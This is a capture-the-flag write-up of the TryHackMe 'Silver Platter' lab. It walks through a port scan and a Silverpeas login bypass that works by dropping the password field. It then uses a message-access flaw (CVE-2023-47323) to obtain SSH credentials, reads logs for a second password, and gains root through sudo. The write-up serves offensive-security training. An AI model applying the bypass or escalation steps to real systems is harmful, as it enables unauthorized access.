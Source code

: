 # THM - Silver Platter

### Ip: 10.129.21.176
### Name: Silver Platter
### Rating: Easy

------------------------------------------------

thm_silver_platter_pic.png

### Intro:

```
Welcome to Silver Platter

Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Silver_Platter]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.234.44
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-13 10:53 CST
Nmap scan report for 10.10.234.44
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b1c878afe3416c9f782372b108f8bf1 (ECDSA)
|_  256 266d17ed839e4f2df6cd5317c8803d09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:48 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:47 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|_http-title: Error
```

Looking at the page on port 80 we find a simple site for a security company:

thm_silver_platter_site.png

Clicking on the Contact button we find:

thm_silver_platter_contact.png

We can access the SilvePeas login at http://10.10.234.44:8080/silverpeas

thm_silver_platter_login.png

### Exploitation

Looking for Silverpeas exploits I find some info about a login bypass at: https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

We can replicate this by capturing a login request in burp and removing the password field as demonstrated in the writeup:

```
Login=SilverAdmin&DomainId=0
```

thm_silver_platter_burp.png

Forwarding the request we find ourselves authenticated:

thm_silver_platter_in.png

Looking for more silverpeas exploits I find:

https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323

Which outlines a broken access control vulnerability that allows us to view all messages.

Browsing the messages using the ID parameter we find:

thm_silver_platter_creds.png

Nice, looks like we've got some SSH credentials here: `tom:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`

We can use these to SSH onto the box and grab the user.txt flag:

thm_silver_platter_user.png

### Privilege Escalation

Running the `id` command we see that user tim is in the `adm` group, which means we will likely have read access to several files in `/var/log`.

```
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

In `/var/log` we find a few interesting log files and discover a credential in auth.log.2 and can use this to `su tyler`:

thm_silver_platter_log.png

```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$
```

Now that we are user tyler we can run `sudo -l` and find:

```
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We can now run:

```
tyler@silver-platter:/var/log$ sudo su -
root@silver-platter:~# whoami
root
```

And grab the final flag:

thm_silver_platter_root.png

Thanks for following along!

-Ryan

----------------------------------------------